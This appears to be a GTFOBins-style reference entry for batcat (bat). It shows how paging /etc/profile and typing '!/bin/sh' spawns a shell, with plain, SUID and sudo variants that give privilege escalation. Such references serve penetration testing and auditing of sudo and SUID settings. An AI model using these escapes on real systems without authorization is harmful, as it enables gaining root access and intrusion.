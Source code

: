 ```yaml
---
description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply. `--paging always` can be omitted provided that the output doesn't fit the screen.
functions:
  shell:
    - code: |
        batcat --paging always /etc/profile
        !/bin/sh
  suid-limited:
    - code: |
        ./batcat --paging always /etc/profile
        !/bin/sh
  sudo:
    - code: |
        sudo batcat --paging always /etc/profile
        !/bin/sh
---
```

